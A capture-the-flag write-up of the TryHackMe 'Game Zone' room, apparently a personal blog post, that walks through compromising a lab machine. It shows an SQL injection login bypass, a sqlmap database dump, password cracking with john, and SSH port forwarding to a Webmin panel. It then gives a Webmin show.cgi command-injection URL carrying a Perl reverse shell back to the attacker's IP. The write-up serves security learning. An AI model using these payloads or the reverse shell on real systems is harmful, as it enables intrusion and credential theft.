

# TryHackMe - Game Zone

Welcome to my write-up of the "Game Zone" room of [TryHackMe](https://tryhackme.com/room/gamezone)!

## Task 1: Deploy the vulnerable machine

The first task is an easy one. We just open the webserver (http://10.10.195.174 in my case) and see the shady face of the main character of the game *Hitman* called **Agent 47**, which is also the answer to the first question.

Done with that, we can go straight to the second task.

## Task 2: Obtain access via SQLi

On the main page of the website we can see a login form which probably checks in user submitted input against a database.

Because we don't have any user account and are not able to create one, we will try to bypass the authentication using common SQL injection payloads. A very good resource on that topic is the [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings) repo on GitHub!

The description on the task gives us a clear hint, so we will put in the following payload into the username field of the login form while leaving the password field empty:

```sql
' or 1=1 -- -
```

We successfuly can log in and hit on the "Search" button which reveals a list of game reviews. The name of that page is **portal.php** which is the answer to the second question.

## Task 3: Using SQLMap

Now shit is going to get real. We will use the awesome, powerful tool called [SQLMap](https://github.com/sqlmapproject/sqlmap) which automatically submits a list of payloads, one attempt after another, to check if there is a SQLi vulnerability that we can abuse.

SQLMap needs some kind of request captured in which it will discover POST parameters where it would target its attack. We just enter something like *test* into the search field and collect the request headers and POST data. As mentioned in the room description, you can use Burp proxy to achieve this, but you can also do it using the developer tools of your browser.

Copying all the request headers and payload data will produce an output like this:

```http
POST /portal.php HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: de-DE,de
Cache-Control: max-age=0
Connection: keep-alive
Content-Length: 15
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=7hhl7mrqrqd6aru6jpovu99ji0
Host: 10.10.195.174
Origin: http://10.10.195.174
Referer: http://10.10.195.174/portal.php
Sec-GPC: 1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36

searchitem=test
```

Save this into a file called ```request.txt```.

Run SQLMap with the following parameters:

```bash
sqlmap -r request.txt --dbms=mysql --dump
```

This will tell SQLMap to use the previously captured request file to perform an automated attack on potentially vulnerable POST parameters.


## Task 4: Cracking a password with JohnTheRipper

SQLMap will also ask you if you want to perform a dictionary attack on the vulnerable parameter. This way we can skip the proposed approach using ```john``` as mentioned in the room description. Just answer with ```Y``` at the right moment and provide the path to your good old ```rockyou.txt```file and SQLMap will do just fine.


After SQLMap finishes, it will reveal the password hash, as well as the decrypted password alongside with the username in the table ```pwd``` and also another table which is called ```post```.

```
+----------------------------------------------------------------------------------+----------+
| pwd                                                                              | username |
+----------------------------------------------------------------------------------+----------+
| ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14 (videogamer124) | agent47  |
+----------------------------------------------------------------------------------+----------+
```

Now we can SSH into the box and are presented a bash prompt.


The ```user.txt``` file containing the flag is right in the home directory of user **agent47**.

```bash
cat user.txt
649ac17b1480ac13ef1e4fa579dac95c
```

## Task 5: Exposing services with reverse SSH tunnels

Using ```ss -tulpn``` we discover that there are **5** TCP listening sockets.


Besides of the ports we already know, there is also an interesting TCP port ```10000``` open. We cannot access this port from our Kali box directly because a firewall is blocking external access, but OpenSSH allows us to tunnel this local port back to our attacking machine so we can access it.

From our local machine, we can fire the following command, using our password cracked before during interactive login.

```bash
ssh -L 10000:localhost:10000 agent47@10.10.195.174
```

Now we can go back to our browser and open [http://localhost:1000](http://localhost:10000) in order to get to the ***Webmin*** panel of the server.


We log in once again with our ```agent47/videogamer124``` credentials and see that **1.580** is the installed version of Webmin.

## Task 6: Privilege Escalation with Metasploit

Webmin is a server administration web panel that usually has privileged access to system functions. Now let's see if we can abuse a vulnerability in this version of Webmin to get root access.

Using ```searchsploit``` we find out that this version of Webmin is vulnerable for RCE.



This exploit can be downloaded from [Exploit-DB](https://www.exploit-db.com/download/21851).

As you can see in the source code of this exploit, the exploit is triggered by accessing a vulnerable target URL.


I did not want to use Metasploit to get this going, therefore my first approach was to just steal ```/etc/passwd``` and ```/etc/shadow``` to do another dictionary attack on the root password (Spoiler: this was unsuccessful).

In order to do that, we can open our browser again and prepare our payload in the address bar.


Then, after copying the relevant lines from the files, we unshadow the ```passwd.txt``` and ```shadow.txt``` files for John the Ripper and start a dictionary attack once again.

```bash
echo "root:x:0:0:root:/root:/bin/bash" > passwd.txt
echo "root:$6$Llhg4MdC$f9TRe8xLelwHpj5JvCNprpWBnHppEnryPo1mGiKW2U71SpTVZRRE0f7/3kZsIwNsRpcc7GlcVSnuYfiN5n7Yw.:18124:0:99999:7:::" > shadow.txt
unshadow passwd.txt shadow.txt > unshadow.txt
john --wordlist=/usr/share/wordlists/rockyou.txt unshadow.txt
```

As we cannot find a password for root, we abuse the vulnerability manually.

Therefore we create a reverse shell listener using *netcat*.

```bash
nc -vnlp 1337
```

When we log into the Webmin interface once again with our **agent47/videogamer124** credentials and then abuse the vulnerable cgi script with a crafted URI.

I tried it with the PentestMonkey Perl Oneliner and was successful. The complete URL would be:

```
http://localhost:10000/file/show.cgi/bin/asdfasdf%7Cperl%20-e%20'use%20Socket;$i=%2210.18.86.124%22;$p=1337;socket(S,PF_INET,SOCK_STREAM,getprotobyname(%22tcp%22));if(connect(S,sockaddr_in($p,inet_aton($i))))%7Bopen(STDIN,%22%3E&S%22);open(STDOUT,%22%3E&S%22);open(STDERR,%22%3E&S%22);exec(%22sh%20-i%22);%7D;'%7C```
```

Then the reverse shell will pop off and you can get the flag.

```bash
connect to [10.18.86.124] from (UNKNOWN) [10.10.114.136] 50684
sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# pwd
/usr/share/webmin/file/
# id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
# ls
root.txt
# cat root.txt
a4b945830144bdd71908d12d902adeee
```

